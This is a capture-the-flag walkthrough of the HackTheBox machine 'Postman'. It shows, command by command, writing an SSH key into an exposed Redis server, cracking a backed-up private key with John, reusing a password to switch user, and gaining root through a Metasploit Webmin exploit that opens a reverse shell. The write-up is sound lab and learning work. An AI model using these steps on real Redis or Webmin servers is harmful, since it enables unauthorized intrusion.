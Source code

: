 ```yaml
---
title: HackTheBox Postman
author: Marius Kimmina
date: 2020-03-14 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [Linux, Redis, Webminn]
published: true
---
```


# 0x0 Introduction
My first post on a HTB machine and the second Box I managed to own (the first one is yet to retire so there will also be writeup for that) featuring redis and webmin.
![image](/images/Postman_htb.png "Postman Logo")


# 0x1 Getting a foothold

As usual we start the box with an nmap scan
```
nmap -sV -sC -oA nmap/nmap 10.10.10.160
```
This revealed a webmin instance on version 1.1910 which has a privilege escalation vulnerability, but we need to be a user first to use that.
Everything else revealed on this first scan did not seem all that interesting so I went for a second, larger, scan.
```
nmap -p- -o nmap-all 10.10.10.10.160
```
Once that finished it revealed that redis was running on port 6379. Redis is a NoSQL Database that works with key-value-pairs, and there are multiple exploits known for it, so that makes a good target.
To work with redis we need to install the redis-tools:
```
sudo apt get install redis-tools
```
I followed a simple exploit (found here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to replace redis's ssh key with our own, first we need to create an ssh-key of our own.

```
ssh-keygen -t rsa
```

Then wrote the public-key fo a file

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt
```

Next I imported the key into redis

```
cat pub.txt | redis-cli -h 10.10.10.160 -x set s-key
```

And then we place that key for the redis-user:

```
mindslave@kalibox:~/hackthebox/Postman/redis$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
```

Now we can ssh into the box as "redis" using our private ssh-key that we generated before.

```
redis@Postman:~$
```

# 0x2 Getting the user.txt

First I found out that user "Matt" existed on the system by doing a simple

```
ls /home
```

Then after enumerating the box for a while (looking for all sorts of interesting files/services/stuff that could lead us further).
I came across the /opt/backup directory and backups are of course always something to look for. In the backup directory was a file called id_rsa.bak, I copied the key to my host maschine and asked my friend john if he knew something about it. First we had to use the ssh2john.py to convert the ssh-key into a format that john can work with.

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ /usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-02-09 07:01) 0.2074g/s 2975Kp/s 2975Kc/s 2975KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have the ssh-key and we know that the password for the key is "computer2008" but this is where this box got a little bit weird. When we tried to connect to the box as matt with the ssh-key and password we get a "connection closed" immediately, which had me confused for a couple of hours. Back on the redis-user, looking at the ssh-config (/etc/ssh/ssh_config and etc/ssh/sshd_config) I found the following line:

```
DenyUsers Matt
```

And honestly, if Matt is not allowed to connect via ssh, why does he even have an ssh-key? And a backup of that key even.
But well it turned out that Matt is not very good with passwords and reused the key password as his local password, so we could just

```
redis@Postman:~$ su Matt
Password:
Matt@Postman:/var/lib/redis$
```

and then we had access to the user.txt in Matt's home directory


# 0x3 Getting the root.txt

To get the root user we had to go back to the webmin instance that we found earlier. Matt was also registered there and of course he used the same password "computer2008" for that as well. Knowing that we could use the privilege escalation exploit that I mentioned earlier.
While I generally prefer to do things without Metasploit, sometimes it is just too convenient. So I entered Matts credentials and set the RHOSTS RPORT LHOST and LPORT Parameter and fired.

```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.87:9666
[+] Session cookie: cf236dc0067d4ca9410f89e64b2bb62d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.87:9666 -> 10.10.10.160:45232) at 2020-02-09 10:17:54 +0100
whoami
root
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

# 0x4 Closing words

This way my second box on HTB (probably the first one I get to post about tho, since it will retire first), and I learned quite a lot from it, especially the whole redis part that had an unnatural place for an .ssh folder to be. Thanks to the Author a great box for new people in the hacking field.

